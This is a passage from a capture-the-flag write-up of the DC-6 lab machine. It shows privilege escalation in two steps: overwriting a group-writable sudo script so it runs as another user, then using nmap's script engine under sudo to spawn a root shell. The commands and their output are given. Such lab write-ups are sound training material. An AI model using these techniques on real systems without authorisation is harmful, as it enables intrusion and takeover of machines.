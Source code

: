 ```
Last login: Sat Oct 10 16:16:08 2020 from 172.16.222.128
graham@dc-6:~$ 
```
Checking graham’s privileges reveals that we can execute a backup script as ```jens``` without password:
```md
graham@dc-6:~$ sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
```
The ```backups.sh``` script can be modified by the devs group, and we are member of this group:
```md
graham@dc-6:/home/jens$ ll
total 28
drwxr-xr-x 2 jens jens 4096 Apr 26  2019 .
drwxr-xr-x 6 root root 4096 Apr 26  2019 ..
-rwxrwxr-x 1 jens devs   50 Apr 26  2019 backups.sh
-rw------- 1 jens jens    5 Apr 26  2019 .bash_history
-rw-r--r-- 1 jens jens  220 Apr 24  2019 .bash_logout
-rw-r--r-- 1 jens jens 3526 Apr 24  2019 .bashrc
-rw-r--r-- 1 jens jens  675 Apr 24  2019 .profile
graham@dc-6:/home/jens$ id
uid=1001(graham) gid=1001(graham) groups=1001(graham),1005(devs)
```
Let’s modify the script:
```bash
graham@dc-6:~$ cat > /home/jens/backups.sh << EOF
> /bin/bash
> EOF
```
And now, let’s execute it as jens:
```md
graham@dc-6:~$ sudo -u jens /home/jens/backups.sh
jens@dc-6:/home/graham$ id
uid=1004(jens) gid=1004(jens) groups=1004(jens),1005(devs)
```
## Privilege escalation
Checking jens’ privileges reveals that we can execute nmap as root without password.
```md
jens@dc-6:~$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
```
Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#sudo) reveals that we can escalate our privileges as follows:
```md
jens@dc-6:~$ TF=$(mktemp)
jens@dc-6:~$ echo 'os.execute("/bin/sh")' > $TF
jens@dc-6:~$ sudo nmap --script=$TF

Starting Nmap 7.40 ( https://nmap.org ) at 2020-10-10 16:46 AEST
NSE: Warning: Loading '/tmp/tmp.OfxOLig2cg' -- the recommended file extension is '.nse'.
# uid=0(root) gid=0(root) groups=0(root)
```
## Root flag